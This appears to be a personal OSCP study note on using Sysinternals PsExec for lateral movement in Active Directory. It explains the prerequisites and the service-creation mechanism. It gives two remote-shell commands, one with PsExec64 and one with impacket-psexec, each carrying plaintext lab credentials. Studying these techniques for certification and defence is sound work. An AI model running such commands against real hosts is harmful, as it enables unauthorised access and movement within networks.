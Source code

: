 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/14-active-directory-movement/2-ps-exec/","updated":"2024-01-05T11:36:58.106+01:00"}
---
```


----------
### Theory:
- Versatile tool part of SysInternals suite
- Intended to replace telnet-like applications
- To abuse for lateral movement:
	- User that authenticates needs to be part of Administrator local group
	- ADMIN$ share available (default)
	- File and Printer Sharing turned on (default)
	- SMB connection through firewall
- Abuse works by:
	- Writing psexesvc.exe into C:\\Windows
	- Creating and spawning service
	- Running requested command as child process of psexesvc.exe

---------
### PsExec Remote Shell:
1. Get PsExec binary to host.
2. Run connection:
```
./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```

--------
### PsExec Remote Shell with Impacket:
```
sudo /usr/bin/impacket-psexec joe:Flowers1@172.16.189.11
```